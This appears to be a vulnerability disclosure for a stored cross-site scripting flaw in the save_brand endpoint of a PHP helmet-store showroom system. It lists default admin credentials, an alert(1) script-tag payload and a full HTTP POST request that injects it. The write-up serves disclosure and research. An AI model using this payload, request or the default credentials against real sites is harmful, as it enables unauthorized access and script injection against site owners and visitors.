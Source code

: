 # Helmet Store Showroom Site Syste - XSS

A vulnerability classified as problematic was found in Helmet Store Showroom Site Syste. This vulnerability affects $fullname code. The manipulation of the argument /classes/Master.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/classes/Master.php/save_brand

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

/classes/Master.php/save_brand has XSS

> Payload: <sCrIpT>alert(1)</ScRiPt>

XSS because $save_brand can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/26.png)

## Payload

```s
POST /CVE/hss/classes/Master.php?f=save_brand HTTP/1.1
Host: localhost
Content-Length: 491
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryakTBMvZDfWb0TsvB
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/CVE/hss/admin/?page=brands
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=n2hadqmvc7m63oc6q677vrodfv
Connection: close

------WebKitFormBoundaryakTBMvZDfWb0TsvB
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryakTBMvZDfWb0TsvB
Content-Disposition: form-data; name="name"

Arai<sCrIpT>alert(1)</ScRiPt>
------WebKitFormBoundaryakTBMvZDfWb0TsvB
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryakTBMvZDfWb0TsvB
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryakTBMvZDfWb0TsvB--

```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/23.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/24.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/25.png)
